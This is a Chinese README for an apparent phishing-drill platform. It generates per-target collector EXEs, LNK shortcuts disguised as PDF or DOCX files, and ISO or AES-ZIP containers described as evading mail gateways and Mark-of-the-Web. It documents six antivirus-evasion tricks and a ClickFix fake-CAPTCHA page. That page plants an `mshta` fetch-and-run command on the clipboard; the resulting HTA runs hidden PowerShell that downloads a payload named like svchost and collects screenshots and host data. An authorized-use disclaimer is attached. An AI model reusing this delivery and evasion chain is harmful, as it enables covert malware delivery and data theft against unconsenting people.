# 安全演练平台 · 钓鱼演练系统

面向授权钓鱼演练与安全意识测试的平台：管理演练目标，为每个目标生成独立回传的 EXE，或打包为伪装文档的 LNK 投递包（ZIP / ISO / 密码 ZIP），也可以通过 ClickFix 伪造验证码落地页分发。目标执行后，平台收集主机信息、屏幕截图与目录结构。

> 仅限在获得明确授权的演练环境中使用，请遵守当地法律法规与演练授权范围。



## 功能特性

- 目标管理：单个添加、批量导入（TXT / CSV / XLSX）、分页、服务端搜索、独立 Token
- EXE 生成：基础 EXE + 目标配置注入，每个目标独立回传
- LNK 投递：伪装成文档的快捷方式，支持 ZIP / ISO / ISO + 密码 ZIP 三种容器
- 免杀组合：六种 LNK 免杀方式可多选组合，默认全部关闭
- ClickFix 落地页：伪造人机验证，剪贴板投递 mshta 命令，访问 / 复制 / HTA / 运行全链路埋点
- 数据采集：主机名、用户名、MAC、内外网 IP、屏幕截图、桌面与磁盘目录列表
- 数据管理：采集记录查看、截图预览、CSV 导出、数据导入与清理
- 界面：深色 / 浅色主题、响应式布局
- 部署：Windows 本地运行或 Linux + Docker 一键部署

## 快速开始 (本地运行)

```bash
# 安装依赖
pip install -r requirements.txt

# 启动服务（Windows 首次运行会在后台自动构建基础 EXE，约 1-3 分钟）
python run.py --host 0.0.0.0
```

启动后终端会输出管理面板地址（路径为随机生成的 10 位字符）：

```
管理面板:     http://0.0.0.0:5000/<随机路径>/
数据监听端口: 8080
```

默认账号密码：

```
用户名: fish
密码:   fishfish@123
```

- 管理面板默认端口 `5000`，回传监听默认端口 `8080`，可通过 `--manage-port` / `--listen-port` 调整
- 需确保防火墙放行这两个端口，且回传端口对目标主机可达



## Docker 部署 (Linux)

```bash
# 克隆仓库
git clone https://github.com/Herbert-555/FUZZTeam_fish.git
cd FUZZTeam_fish

# 部署
bash install_fish.sh

# 使用国内 pip 镜像加速
PIP_INDEX_URL=https://pypi.tuna.tsinghua.edu.cn/simple bash install_fish.sh

# 自定义端口
FUZZTEAM_FISH_MANAGE_PORT=8000 FUZZTEAM_FISH_LISTEN_PORT=9000 bash install_fish.sh

# 查看管理面板地址（部署脚本也会直接打印）
docker logs fuzzteam-fish
```

### 环境变量

| 变量                        | 默认值          | 说明             |
| --------------------------- | --------------- | ---------------- |
| `FUZZTEAM_FISH_CONTAINER`   | `fuzzteam-fish` | 容器名称         |
| `FUZZTEAM_FISH_IMAGE`       | `fuzzteam-fish` | 镜像名称         |
| `FUZZTEAM_FISH_MANAGE_PORT` | `5000`          | 管理面板端口     |
| `FUZZTEAM_FISH_LISTEN_PORT` | `8080`          | EXE 回传数据端口 |
| `FUZZTEAM_FISH_DATA`        | `./data`        | 数据库持久化目录 |
| `FUZZTEAM_FISH_UPLOADS`     | `./uploads`     | 截图上传目录     |
| `FUZZTEAM_FISH_OUTPUT`      | `./output`      | 生成文件输出目录 |
| `PIP_INDEX_URL`             | 空              | pip 镜像源地址   |

## 系统使用

### 使用流程

1. 登录管理面板
2. 在「目标管理」中添加或批量导入目标
3. 在「EXE 配置」中设置图标、文件名模板、回传地址与行为选项；如需 LNK 投递，同时配置伪装后缀、投递容器与免杀方式；如需 ClickFix，开启落地页
4. 在「EXE / LNK 生成」中为目标生成 EXE 或 LNK 投递包
5. 将生成的文件分发给目标（邮件、网盘、U 盘等）
6. 目标运行后，在「采集数据」中查看回传的主机信息、截图与目录结构

### 目标管理

支持单个添加、批量导入（TXT / CSV / XLSX 模板），列表支持分页与服务端搜索。每个目标拥有独立 Token，用于区分回传数据与生成专属落地页链接。



### EXE 配置

统一配置基础信息：渲染图标、文件名模板（支持 `{token8}` 等占位符）、回传服务器地址与端口、弹窗提示、自毁等选项。



LNK 投递相关配置位于同一页面的「LNK 压缩包」与「ClickFix 落地页」卡片中。

### 生成与分发

在「EXE / LNK 生成」中可单个或批量生成。每个目标可分别生成 EXE 和 LNK 投递包：



生成完成后在「已生成文件」中下载。根据配置的容器不同，可得到 EXE、ZIP（LNK 包）、ISO 镜像或 ISO + 密码 ZIP：



### 采集数据

目标运行后，按回传时间展示主机名、用户名、内网 IP、出口 IP、截图与目录信息，支持批量导出与删除。



## LNK 压缩包投递

除 EXE 外，系统可为每个目标生成 LNK 投递包：包内只显示一个伪装成文档的快捷方式（`文件名.<后缀>.lnk`，Windows 默认隐藏 `.lnk` 后缀），实际的采集 EXE 与脚本位于隐藏目录。

使用方式：

1. 在「EXE 配置」→「LNK 压缩包」中选择伪装后缀、投递容器并勾选免杀方式（可多选，默认不启用）
2. 在「目标管理」或「EXE / LNK 生成」中点击「生成 LNK」，生成后下载
3. 通过邮件、网盘或即时通讯投递，目标解压 / 装载后双击伪装的快捷方式



伪装后缀支持 `pdf` / `docx` / `xlsx` / `zip` 四种，快捷方式使用系统自带文件类型图标。

### 投递容器

| 容器 | 说明 |
| --- | --- |
| `ZIP` | 直接投递 ZIP，兼容性最好 |
| `ISO` | 以光盘镜像投递，绕过部分邮件网关对压缩包的检查；Windows 10+ 可直接双击装载 |
| `ISO + 密码 ZIP` | ISO 再套一层 AES 加密 ZIP，规避网关扫描并阻断 MOTW 传播，密码需通过其他渠道告知目标 |

说明：

- ISO 使用 ISO9660 + Joliet + UDF 2.60 构建，UDF 保留完整中文文件名（Joliet 对长文件名会截断），Windows 10 及以上可原生装载
- ISO 不保留 DOS 隐藏属性，载荷目录在装载后可见；建议同时启用「伪装 `__MACOSX` 目录」进行遮盖
- 密码 ZIP 仅在填写密码时启用 AES 加密；留空则生成普通 ZIP
- 依赖 `pycdlib`、`pyzipper`（已包含在 `requirements.txt`）

### 免杀方式

| 选项 | 说明 |
| --- | --- |
| conhost 无窗口执行 | 通过 `conhost.exe --headless` 读取命令文件，不弹出控制台（Windows 10 1809+） |
| Explorer → VBS → BAT 隐藏链 | LNK 启动 VBS，VBS 隐藏运行 BAT 拉起载荷，增加静态分析层级 |
| 字符串拆分 + 干扰码 | BAT 内拆分拼接载荷名并插入延时干扰命令，自动启用 VBS 链 |
| 打开诱饵文档 | 载荷启动后打开同后缀诱饵文档，自动启用 VBS 链 |
| 参数空白填充 | LNK 参数前填充空白，属性面板中不易直接看到真实参数 |
| 伪装 `__MACOSX` 目录 | 将载荷目录嵌套为 `__MACOSX` 层级并隐藏，模拟压缩包元数据目录 |

- 默认由系统自带的 `ftp.exe -s:...` 启动命令文件；启用 conhost 后改为 `conhost.exe --headless` 无窗口读取命令文件
- 链式命令使用相对路径，依赖资源管理器双击快捷方式时将工作目录设为快捷方式所在目录；通过脚本或命令行直接调用时行为可能不同
- ZIP 包内的载荷与脚本设置隐藏属性；ISO 由于不保留隐藏属性，可见性依赖 `__MACOSX` 伪装
- 诱饵文档为动态生成的最小 PDF / DOCX / XLSX / ZIP

## ClickFix 落地页

ClickFix 通过伪造的“人机验证”引导目标自己执行命令，适合在无法直接投递可执行文件时使用。

启用方式：「EXE 配置」→「ClickFix 落地页」开启开关。每个目标可在目标详情页查看专属链接：

```
http://<回传地址>:<回传端口>/p/<token>
```





执行链路：

1. 目标打开专属链接，页面提示“系统检测到当前访问环境存在异常”，展示伪造的「我不是机器人」验证框
2. 点击验证框后，页面自动复制 `mshta "http://<回传地址>:<端口>/p/<token>/run.hta"` 到剪贴板，并引导按 `Win + R` 粘贴回车
3. 回传端收到 HTA 请求后下发 HTA：隐藏窗口启动 PowerShell，用 `WebClient` 将按需构建的目标 EXE 下载到 `%TEMP%\svchost_<随机数>.exe` 并启动
4. 采集端回传数据，与 EXE 投递完全一致

埋点与统计：

- 事件类型：`visit`（访问页面）、`copy`（复制命令）、`hta`（打开 HTA）、`run`（载荷运行）
- 目标详情页展示各事件计数与最近 10 条事件（时间、IP、User-Agent）
- 落地页默认开启，可在配置中关闭；关闭后链接返回 404



实现备注与限制：

- HTA 由 `mshta.exe` 执行，部分终端安全策略或 EDR 会拦截 HTA / PowerShell
- 远程 HTA 运行在 Internet 安全区域，`ADODB.Stream` 等组件写文件会被拦截，因此下载动作交由 PowerShell 完成
- 请勿在 `landing.hta` 中添加 `X-UA-Compatible IE=edge` 元标签，该标签会导致 Windows 11 下 VBScript 不执行
- 载荷 EXE 在请求时按需构建，回传地址取自目标实际访问的监听地址，确保跨网络场景下回调可达
- 该方式依赖目标主动在“运行”窗口粘贴执行命令，属于高强度社工场景，建议仅在明确授权且预期目标会配合的演练中使用

## 架构

```
run.py                    # 启动入口（随机管理路径、双端口服务）
server/                   # 服务端
├── app.py                # Flask 应用工厂（管理端 + 回传端）
├── models.py             # SQLite 数据库模型
├── routes.py             # Web 路由 + 回传 API + ClickFix 路由
├── exe_builder.py        # EXE 生成 (footer 注入 / PyInstaller)
├── lnk_builder.py        # LNK / ZIP / ISO / 密码 ZIP 生成与免杀组合
├── config_manager.py     # 配置管理
├── icon_extractor.py     # 内置图标生成
├── pe_icon.py            # PE 图标注入
├── static/               # 样式、脚本、图标
└── templates/            # Jinja2 模板
    ├── landing.html      # ClickFix 伪造验证码页
    └── landing.hta       # HTA 下载并拉起载荷
client/
└── collector.py          # 客户端采集脚本 (被打包进 EXE)
```

## 技术要点

- **跨平台 EXE 生成**：Windows 上通过 PyInstaller 构建基础 EXE；Linux 上使用按图标预构建的 base EXE 变体，复制后追加目标配置，无需 Wine
- **配置注入**：EXE footer 中的配置使用 XOR 加密（密钥 `fishfish@aes`），每个目标独立 Token
- **LNK 生成**：`pylnk3` 构造快捷方式，ZIP / ISO 内通过目录层级与属性隐藏载荷，支持 ftp / conhost / VBS 多种启动链
- **ISO 构建**：`pycdlib` 生成 ISO9660 + Joliet + UDF 2.60 镜像，UDF 保留完整 Unicode 文件名
- **密码 ZIP**：`pyzipper` 以 AES 加密包裹 ISO，规避网关扫描与 MOTW 传播
- **ClickFix**：按需构建载荷、HTA + PowerShell WebClient 下载、四阶段埋点
- **客户端功能**：采集主机信息、截屏、目录扫描、弹窗提示、自毁删除
- **默认账号**：`fish` / `fishfish@123`

## 免责声明

本项目仅用于获得书面授权的钓鱼演练、红蓝对抗与安全意识培训。使用者应确保演练范围、目标与时间窗口均已获得授权，并对使用过程中产生的一切后果负责。禁止将本项目用于任何未经授权的攻击或非法用途。
